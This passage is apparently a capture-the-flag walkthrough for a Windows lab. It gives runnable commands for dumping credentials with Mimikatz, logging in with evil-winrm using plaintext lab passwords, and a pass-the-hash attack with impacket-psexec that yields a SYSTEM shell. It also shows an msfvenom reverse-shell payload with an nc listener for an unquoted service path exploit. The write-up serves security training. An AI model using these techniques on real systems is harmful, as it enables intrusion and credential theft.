 ```bash
*Evil-WinRM* PS C:\Temp> .\mimikatz.exe

# In Mimikatz prompt:
mimikatz # privilege::debug
# Output: Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
# Look for jsmith's wdigest section:
# * Flag     : FLAG{BLASTOISE85932580}

mimikatz # exit
```

### FLAG 004: Debug Privilege Exploitation (40 points)
**Location**: Registry key requiring debug privileges
```bash
# Login as debuguser
evil-winrm -i 192.168.1.124 -u debuguser -p Debug123!

# Check privileges
*Evil-WinRM* PS C:\Users\debuguser\Documents> whoami /priv
# Verify SeDebugPrivilege is enabled

# Query special registry key
*Evil-WinRM* PS C:\Users\debuguser\Documents> reg query HKLM\SOFTWARE\DebugPrivileges /v WorkstationFlag
# Output: WorkstationFlag    REG_SZ    FLAG{VENUSAUR49841932}
```

### FLAG 005: Pass-the-Hash Attack (50 points)
**Location**: Administrator desktop after PTH
```bash
# Use localadmin NTLM hash from Mimikatz (8c6f5e2753e1d7606e5a2e66d1a0ee3f)
# From Kali:
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8c6f5e2753e1d7606e5a2e66d1a0ee3f localadmin@192.168.1.124

# In SYSTEM shell:
C:\Windows\system32> whoami
# Output: nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\pth_workstation_flag.txt
# Output: FLAG{BUTTERFREE00071950}
C:\Windows\system32> exit
```

---

## Phase 5: Service Exploitation

### FLAG 010: Unquoted Service Path - FakeAntivirus (25 points)
**Location**: Exploiting FakeAntivirus service
```bash
# On Kali, create exploit:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.7 LPORT=4444 -f exe > Antivirus.exe

# Start listener:
nc -lvnp 4444

# In Evil-WinRM session:
evil-winrm -i 192.168.1.124 -u jsmith -p Welcome1

```